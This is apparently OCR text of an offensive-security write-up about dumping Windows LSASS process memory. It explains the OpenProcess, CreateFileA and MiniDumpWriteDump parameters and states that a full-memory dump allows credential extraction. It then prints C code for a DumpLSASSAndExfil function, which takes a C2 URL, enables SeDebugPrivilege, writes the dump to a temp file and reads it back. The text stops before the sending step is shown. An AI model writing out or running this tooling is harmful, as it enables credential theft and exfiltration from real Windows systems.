 #### Line-by-line Explanation

**. OpenProcess**

`dwDesiredAccess`: `PROCESS_QUERY_INFORMATION | PROCESS_VM_READ`.

- `PROCESS_QUERY_INFORMATION`: allows querying certain info about the process.
- `PROCESS_VM_READ`: allows reading the process’s memory pages.
- These rights are required by `MiniDumpWriteDump` to read memory of the target.

`bInheritHandle`: `FALSE`, the handle is not inheritable by child processes.

`dwProcessId`: `pid`, the LSASS process ID.

**. CreateFileA for dump file**

1. `lpFileName`: `dumpPath`, the path to the output dump file.
2. `dwDesiredAccess`: `GENERIC_WRITE`, open for writing.
3. `dwShareMode`: `0`, no sharing (other processes cannot read/write while open).
4. `lpSecurityAttributes`: `NULL`, default security.
5. `dwCreationDisposition`: `CREATE_ALWAYS`, create a new file; if it exists, overwrite it.
6. `dwFlagsAndAttributes`: `FILE_ATTRIBUTE_NORMAL`, normal file.
7. `hTemplateFile`: `NULL`, not used.

. **MiniDumpWriteDump**

`MiniDumpWriteDump` parameters:

1. `hProcess`: handle to LSASS process obtained earlier.
2. `ProcessId`: `pid`, the same process ID.
3. `hFile`: file handle where the dump will be written; must be seekable.
4. `DumpType`: `MiniDumpWithFullMemory`. Requests a full-memory dump of the process. This includes all memory pages, allowing credential extraction.
5. `ExceptionParam`: `NULL`, since we are not capturing exception context.
6. `UserStreamParam`: `NULL`, no extra streams.
7. `CallbackParam`: `NULL`, no callbacks.

```
BOOL DumpLSASSAndExfil(DWORD pid, const char* c2_url) {
 BOOL bResult = FALSE;
 CHAR tmpPath[MAX_PATH];
 CHAR tmpFile[MAX_PATH];
 DWORD fileSize = 0;
 DWORD bytesRead = 0;
 BYTE* fullBuffer = NULL;
// 1) Enable SeDebugPrivilege
 if (!EnableDebugPrivilege()) {
 fprintf(stderr, "[-] Failed to enable SeDebugPrivilege: %lu\n", GetLastError());
 return FALSE;
 }
// 2) Create a temp filename
 if (!GetTempPathA(MAX_PATH, tmpPath) ||
 !GetTempFileNameA(tmpPath, "LS", 0, tmpFile)) {
 fprintf(stderr, "[-] Cannot create temp filename: %lu\n", GetLastError());
 return FALSE;
 }
// 3) Dump LSASS to the temp file
 printf("[*] Dumping LSASS (PID=%u) into temp file %s …\n", pid, tmpFile);
 if (!DumpLSASS(pid, tmpFile)) {
 fprintf(stderr, "[-] DumpLSASS(temp) failed.\n");
 goto cleanup;
 }
// 4) Read the entire dump into memory
 HANDLE hFile = CreateFileA(tmpFile,GENERIC_READ,FILE_SHARE_READ,NULL,OPEN_EXISTING,FILE_ATTRIBUTE_TEMPORARY,NULL);
 if (hFile == INVALID_HANDLE_VALUE) {
 fprintf(stderr, "[-] Open temp dump failed: %lu\n", GetLastError());
 goto cleanup;
```